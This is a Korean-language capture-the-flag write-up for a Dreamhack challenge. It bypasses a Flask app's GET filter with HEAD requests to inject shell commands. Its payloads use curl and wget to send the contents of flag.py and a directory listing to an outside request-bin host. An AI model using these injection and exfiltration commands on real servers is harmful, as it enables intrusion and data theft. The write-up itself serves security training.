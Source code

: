 ## 코드

```python
#!/usr/bin/env python3
from flask import Flask, request
import os

app = Flask(__name__)

@app.route('/' , methods=['GET'])
def index():
    cmd = request.args.get('cmd', '')
    if not cmd:
        return "?cmd=[cmd]"

    if request.method == 'GET':
        ''
    else:
        os.system(cmd)
    return cmd

app.run(host='0.0.0.0', port=8000)
```

## 풀이

코드가 일단 아주 간단하다. cmd 그대로 받아서 실행시키고 결과를 리턴하는 코드인데,
문제는 두가지이다.

1. os.system(cmd)의 결과를 웹에서 볼 수 없다.
2. request.method == 'GET'을 필터링한다.

즉 우리는 GET 메소드를 쓰지 않고, 명령어를 실행시켜서 이를 외부로 보내도록 처리해야 한다.
GET 메소드를 우회하기 위해서는 어떤 메소드가 사용가능한지 확인해봐야 하는데,
OPTIONS 메소드로 확인해보면 GET, HEAD, OPTIONS 메소드가 허용되어 있는 것을 알 수 있다. 

```python
import requests
res = requests.options('http://host3.dreamhack.games:9621)
> res.headers
> {'Content-Type': 'text/html; charset=utf-8', 'Allow': 'GET, OPTIONS, HEAD', 'Content-Length': '0', 'Server': 'Werkzeug/1.0.1 Python/3.7.7', 'Date': 'Tue, 22 Mar 2022 00:40:19 GMT'}
```

일단 외부로 보내는 방법은 다양한데, 대표적으로 curl, wget이 있다.
일반적으로 curl은 다운로드할 때 많이 사용하며, 우리는 curl 명령어를 실행시켜 flag 파일 정보를 외부로 보내야 한다.
외부 서버는 당연히 문제 서버와 연결돼야 하며, 자체 서버를 열기엔 번거로우니 드림핵의 requests bin 서버를 활용하면 된다.

```python
import requests
res2 = requests.head('http://host3.dreamhack.games:9621/?cmd=curl -F "file1=./flag.py" https://xskqaoq.request.dreamhack.games')
```

위와 같이 작성하면 문제서버/flag.py 파일을 드림핵 requests bin 서버에 보낼 수 있다.
만약 이게 우리 서버였다면 파일을 열어볼 수 있겠지만, 드림핵 서버는 파일 조회를 할 수 없다.
따라서 파일 자체를 보내기보단, 파일을 읽은 정보를 보내야 한다. => cat flag.py의 결과를 보내야 한다는 것
bash 명령어에서 "$(ls)"를 하면 ls 한 결과를 String으로 처리할 수 있다.
이 결과를 curl이나 wget을 통해 POST 방식으로 드림핵 requests bin 서버에 보내면 requests bin 응답의 body에서 해당 결과를 볼 수 있게 되는 것이다.

```python
import requests
res2 = requests.head('http://host3.dreamhack.games:9621/?cmd=wget --post-data="$(ls)" https://xskqaoq.request.dreamhack.games/')
res2 = requests.head('http://host3.dreamhack.games:9621/?cmd=curl https://wgvwluv.request.dreamhack.games/ -d "$(cat flag.py)"')
```

둘 중에 아무거나 사용하면 된다.
